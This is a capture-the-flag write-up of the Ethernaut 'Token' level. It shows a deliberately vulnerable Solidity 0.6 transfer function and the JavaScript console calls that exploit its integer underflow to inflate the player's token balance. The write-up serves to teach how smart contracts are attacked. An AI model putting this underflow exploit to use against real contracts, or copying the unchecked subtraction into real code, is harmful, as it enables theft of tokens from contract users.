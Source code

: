 # 05. Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

## Solution

We notice two things:

```solidity
// 1. Solidity version is up to 0.6
pragma solidity ^0.6.0;

//[...]

// 2. Transfer function perform our math 
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

What's the link between them? **Overflows**

Until Solidity compiler 0.8.* math operations are subject to over and underflows, that's why the SafeMath module is used.

Note `MAX_INT == 2 ** 256 - 1`. `0 - 1 == MAX_INT`, so `MAX_INT + 1 == 0`, hence the solution is pretty straightforward:

```javascript
await contract.balanceOf(player)
// -> 0: 20
const fakeUser = '0x5B38Da6a701c568545dCfcB03FcB875f56beddC4'  // got from remix account
await contract.transfer(fakeUser, 21)
await contract.balanceOf(player)
// -> 0: 67108863
// 1: 67108863
// 2: 67108863
// 3: 67108863
// 4: 67108863
// 5: 67108863
// 6: 67108863
// 7: 67108863
// 8: 67108863
// 9: 4194303
```

This works because `balances[msg.sender] -= _value;` will set the MAX_INT value to the `msg.sender` that would be us. To keep our tokens the `_to` address has to be another account because `MAX_INT + 1 == 0` and we will loose all the accumulated tokens. Also, we set `_value` to 21 because we have 20 starting tokens.

